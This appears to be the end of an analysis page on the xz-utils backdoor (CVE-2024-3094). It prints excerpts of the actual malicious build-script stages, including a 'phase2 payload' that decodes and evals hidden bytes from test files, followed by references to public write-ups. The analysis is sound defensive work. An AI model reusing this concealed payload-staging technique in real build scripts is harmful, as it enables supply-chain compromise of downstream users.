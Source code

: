 ```bash
else
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd
```

[**5.6.1-phase2-payload**](5.6.1-phase2-payload.txt)

```bash
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" $P\""
O="^pic_flag=\" -fPIC -DPIC\"$"
R="is_arch_extension_supported"
x="__get_cpuid("
p="good-large_compressed.lzma"
U="bad-3-corrupt_lzma2.xz"
[ ! $(uname)="Linux" ] && exit 0
eval $zrKcVq
if test -f config.status; then
eval $zrKcSS
eval `grep ^LD=\'\/ config.status`
eval `grep ^CC=\' config.status`
eval `grep ^GCC=\' config.status`
eval `grep ^srcdir=\' config.status`
eval `grep ^build=\'x86_64 config.status`
eval `grep ^enable_shared=\'yes\' config.status`
eval `grep ^enable_static=\' config.status`
eval `grep ^gl_path_map=\' config.status`
vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null`
if test "x$vs" != "x" > /dev/null 2>&1;then
f1=`echo $vs | cut -d: -f1`
if test "x$f1" != "x" > /dev/null 2>&1;then
start=`expr $(echo $vs | cut -d: -f2) + 7`
ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null`
if test "x$ve" != "x" > /dev/null 2>&1;then
f2=`echo $ve | cut -d: -f1`
if test "x$f2" != "x" > /dev/null 2>&1;then
[ ! "x$f2" = "x$f1" ] && exit 0
[ ! -f $f1 ] && exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
eval $zrKccj
if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
exit 0
fi
if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
exit 0
fi
if test "x$enable_shared" != "xyes";then
exit 0
fi
if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
exit 0
fi
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
exit 0
```

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)